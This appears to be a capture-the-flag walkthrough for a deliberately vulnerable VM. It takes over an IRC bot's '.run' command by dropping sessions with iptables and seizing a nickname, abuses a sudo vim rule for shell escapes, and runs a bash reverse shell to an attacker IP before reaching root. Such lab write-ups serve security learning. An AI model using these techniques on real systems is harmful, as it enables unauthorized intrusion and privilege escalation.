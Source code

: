 ```
``` 

don’t know much about IRC bots, but googling sopel+irc turns up plenty of info if more research is needed on the bot

in the modules directory, the `run.py` script indicates that one of the bot commands is .run and that the id of the caller is checked  
this is confirmed in the IRC session:
```
11:05:23  root | .run id
11:05:25 wallabysbot | Hold on, you aren't Waldo?
/nick waldo  - gives an error because waldo is already logged in via a local irc client.
```

The designed route is to use sudo/vi to get shell.  Instead I tried to get waldo out so I could assume his nickname:

* try blocking traffic to ircd until irc sessions time out (see IP Tales Reference Section)[### IP Tables Command Reference]
* add an iptables rule
* wait for irc sessions to timeout
* then remove the blocking rule to ircd
* see if you can connect and take the waldo nick

this works, but unfortunately the irc bot (sopel bot) times out and never reconnects.  the bot service is started by `/etc/init.d/sopel`

so at this point i’m kind of stuck on the IRC path, and i want to restart the VM.  
so I used the other allowable sudo command, `vi`, to move the `tmux` irc startup script in waldo’s home directory
```
User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables

sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```
`:!mv ~/irssi.sh ~/irssi.sh_`   (at this point it’s easier to just use vi to execute a shell as waldo, then join waldo’s tmux/irc session, but i wanted to follow through on my attempt to kick waldo out of IRC for the takeover.)  
`:q!`

Then i crashed/restarted the VM.  
When it boots back up, you have to re-remove the IRC blocking iptables rule then you can connect to IRC and `/nick waldo`  
The bot is started, and as waldo you are authorized to use `.run`

from here, run another reverse shell, this will run as the ircbot process owner (wallaby)
```
.run bash -c “bash -i >& /dev/tcp/192.168.86.141/8080 0>&1"
```
I used help from abatchy’s writeup to get this syntax <http://www.abatchy.com/2017/01/wallabys-nightmare-walkthrough-vulnhub.html>

as waldo, `sudo -l` finds that you effectively have root.
grab the flag from /root directory and done
